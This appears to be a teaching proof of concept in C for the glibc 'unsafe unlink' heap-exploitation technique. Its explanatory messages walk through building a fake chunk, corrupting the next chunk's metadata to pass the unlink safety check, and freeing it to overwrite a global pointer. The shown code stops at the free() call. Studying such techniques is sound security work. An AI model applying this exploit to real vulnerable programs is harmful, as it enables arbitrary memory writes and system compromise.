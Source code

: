 ## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


uint64_t *chunk0_ptr;

int main()
{
	fprintf(stderr, "Welcome to unsafe unlink 2.0!\n");
	fprintf(stderr, "Tested in Ubuntu 14.04/16.04 64bit.\n");
	fprintf(stderr, "This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	fprintf(stderr, "The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;

	fprintf(stderr, "The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	fprintf(stderr, "The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	fprintf(stderr, "The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

	fprintf(stderr, "We create a fake chunk inside chunk0.\n");
	fprintf(stderr, "We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	fprintf(stderr, "We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	fprintf(stderr, "With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	fprintf(stderr, "Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	fprintf(stderr, "Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

	fprintf(stderr, "We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	fprintf(stderr, "We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	fprintf(stderr, "It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	fprintf(stderr, "If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	fprintf(stderr, "We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

	fprintf(stderr, "Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	fprintf(stderr, "You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);
```